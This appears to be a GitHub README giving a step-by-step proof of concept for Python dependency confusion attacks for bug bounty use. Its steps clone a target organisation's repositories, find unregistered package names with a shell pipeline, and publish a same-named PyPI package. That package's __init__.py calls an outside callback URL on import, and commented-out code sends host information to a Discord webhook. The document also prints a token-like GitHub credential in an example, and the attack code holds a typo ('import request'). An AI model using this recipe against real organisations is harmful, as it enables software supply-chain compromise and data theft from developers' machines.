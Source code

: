 <h1 align="center">
    <a href="https://www.youtube.com/@techghoshal"><img src="https://github.com/techghoshal/Fix-Grub-Boot-Menu/assets/85815644/26ed3a3f-a1e6-452c-b2ac-cac5c3d7478e"></a>
<h1 align="center">Python Dependency Confusion Attacks POC
<p align="center"><img alt="Twitter Follow" src="https://img.shields.io/twitter/follow/techghoshal?style=social"></p>
</h1>


## How to Finds & How to Exploit

Finds requirement.txt then check the all dependency here is public or not

`https://pypi.org/project/pip/`

#### Download all target github repository
- Crate personal access tokens (classic):- https://github.com/settings/tokens
- Install ghorg - https://github.com/gabrie30/ghorg#installation
```bash
$ ghorg clone <target> -t <token>
```
`example: $ ghorg clone google -t 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`
    
- After Download all repository finds vulnerable python package
    
```bash 
$ find . -type f -name requirements.txt | xargs -n1 -I{} cat {} |  awk '{print $1;}' | tr -d '>' | tr -d '<' | tr -d '~' | tr -d '#' | tr -d '$' | sort -u |  cut -d '=' -f 1 | awk '{print $1;}' |  sort -u | xargs -n1 -I{} echo "https://pypi.org/project/{}/" | httpx -status-code -silent -content-length -mc 404
```
- 404 code means this package not available publicly So This the vulnerable to dependencies confusion.

- So now Publish this python packages publicly (https://pypi.org)

```bash
$ mkdir <package-name>
```
```bash
$ cd <package-name>
```
```bash
$ mkdir <package-name> 
```
```bash
$ cd <package-name>
```
```bash
$ touch __init__.py 
```

```bash
# python package dependency confiuse vulnerability POC 
# name: techghoshal
# e-mail: techghoshal@gmail.com
# Impact this vulnerability: Remote code execution(RCE)


import request
#from discord import SyncWebhook
#import os

## canarytokens_url OR burp collaborator URL
requests.get("canarytokens_url")

## Send target system info to your discord server 
#webhook = SyncWebhook.from_url("<discord_webhook_url>")

#osname =  os.uname()
#cwd = os.getcwd()

#webhook.send(f"OS-Info: {osname}")
#webhook.send(f"Current-DIR: {cwd}")
```

- Save this file

```bash
$ cd .. 
```
```bash
$ touch setup.py
```
- Note: The version of package and the version of the vulnerable package must be same
    
```bash 
from setuptools import setup, find_packages
import codecs
import os

here = os.path.abspath(os.path.dirname(__file__))

with codecs.open(os.path.join(here, "README.md"), encoding="utf-8") as fh:
    long_description = "\n" + fh.read()

VERSION = '0.0.1'
DESCRIPTION = 'Dependency confiuse Attack'
LONG_DESCRIPTION = 'Python package dependency confiuse vulnerability POC. Impact this vulnerability is Remote code execution (RCE)'

# Setting up
setup(
    name="<package-name>",
    version=VERSION,
    author="<techghoshal>",
    author_email="<techghoshal@gmail.com>",
    description=DESCRIPTION,
    long_description_content_type="text/markdown",
    long_description=long_description,
    packages=find_packages(),
    install_requires=['requests', 'discord'],
    keywords=[]
   )
```
- Save this file

```bash
$ touch README.md
```
```bash
<h1 align="center">This Python package vulnerable to dependency confusion vulnerability</h1>
```
- Save this file

- Next build package
```bash
$ python3 setup.py sdist bdist_wheel
```

- Upload file publicly (https://pypi.org)

- Create Accont on pypi.org

```bash
$ pip3 install twine
```
```bash
$ twine upload dist/*
```

- Enter your username: <username>
- Enter your password: <password>

---
    
Upload IS DONE 😎 
<br>
🎉 Now Bounty Time 💰💰
    
## Connect me
If you have any queries, you can always contact me on <a href="https://twitter.com/techghoshal">twitter(@techghoshal)</a>


